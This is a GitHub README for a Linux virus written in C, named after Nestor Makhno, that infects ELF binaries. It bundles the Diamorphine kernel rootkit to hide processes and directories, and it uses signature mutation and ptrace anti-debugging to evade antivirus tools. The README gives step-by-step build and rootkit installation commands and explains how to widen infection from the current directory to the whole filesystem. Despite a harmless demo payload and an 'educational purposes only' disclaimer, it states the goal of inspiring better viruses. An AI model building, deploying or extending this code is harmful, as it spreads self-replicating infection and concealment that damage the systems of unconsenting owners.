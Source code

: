 # Nestor_Makhno
Linux virus in C that uses mutation and rootkit functionality

Nestor_Makhno is a simple Linux virus that uses a rootkit(Diamorphine) to help hide its tracks and avoid av detection. The historical Nestor Makhno was famous for a lot, but one thing was being the first to begin using machine guns on covered wagons. He didn't create machine guns or wagons, but he knew these things would work well together. His ideas are still credited as the first proto-tank and first drive-by shooting. Virus writing has used some of the same techniques as rootkits long before this virus code existed here. The naming of this project as Nestor_Makhno is only to pay tribute and inspire other programmers to think outside the box and barrow techiques from other malware to create betrer viri.  

The Diamorphine rootkit mostly used to make the process invisible in the pids.c file. As-is, it will also be used to create a hidden directory in /dev/shm/diamorphine_secret_def_not_a_virus. To avoid detection we suggest renaming this directory in the code of simmple.c

```
$ grep mkdir virus/simple.c
   mkdir("/dev/shm/diamorphine_secret_def_not_a_virus",0775);
```

Diamorphine will hide any folder on the system who's name begins with "diamorphine_secret". So be sure to include this with any locations that should be hidden. You may also want to build and run the virus portion of Nestor_Makhno from a folder like this to avoid dectection as well. 

To use this code, first go to the Diamorphine directory, build and install it:

```
$ cd ./Diamorphine
$ make
$ sudo insmod ./diamorphine.ko
```

If you expirence errors with these steps, you most likely do not have kernel headers installed. On Debian you may install them with the following:

```
$ sudo apt search linux-headers-$(uname -r)
```

Then go to the directory for the virus and build it:

```
$ cd ../virus
$ make
```

To prevent abuse, there is no real payload used with this code. Instead only an infamous quote by the historical Nestor Makhno will be injected into binaries. After completing you will find a binary called 'Nester_Makhno' and another called 'hello' to be used for testing. The code is set here to only infect files in the same directory:

```
$ grep '^   scan' virus/simple.c
   scan_dir(".", virus);
```

The above location may be editted to '/' or any desired location if you have a vm or sandbox. It should go without sayinig, but DO NOT RELEASE THIS CODE INTO THE WILD. THIS IS FOR TESTING AND EDUCATIONAL PURPOSES ONLY. I am not responsible for any damage this may cause and depending on your location, running this code may be illegal on devices you do not own. So you have been warned. 

Running the code you will see the quote from our payload: 

```
$ cd ./virus
$ ./Nestor_Makhno
Death to all those who stand in the way of freedom for the working people!
``` 
You can silence this by outputting to /dev/null. After this, you will find the hello binary will also excute this quote:

```
$ ./hello        
Death to all those who stand in the way of freedom for the working people!
Hello!
```

This is despite this string not being found in the code of hello.c:

```
$ cat ./hello.c 
#include <stdio.h> 

int main(){ 
    printf("Hello!\n");
}
```

Using virus strategies of the past, the modify.c file in the virus directory is used to randomly obscure this code's signature in memory. Basically making this a mutation virus as well. PTRACE has been used in trace.c to help prevent debugging. Combined with the rootkit functionality, this will make detection much more difficult, but not impossible.

If you wish to make changes to this code, the following line will need to be updated:

```
$ grep 'define PARASITE_LENGTH' simple.c
#define PARASITE_LENGTH 14800 /* PARASITE_LENGTH the size of compiling virus */
```

This will need to match the number of bytes in the compiled binary:

```
$ ls -l Nestor_Makhno
-rwxr-xr-x 1 user user 14800 Mar  9 02:19 Nestor_Makhno
```

It should be noted that while the virus has a GNU 3 License, the Diamorphine rootkit has its own separate license located in its folder.

Otherwise functionality of the virus might cease to work correctly.

Information on the historical Nestor Makhno may be found here:

https://en.wikipedia.org/wiki/Nestor_Makhno

Information on the Diamorphine rootkit may be found here:

https://github.com/bms8197/diamorphine 

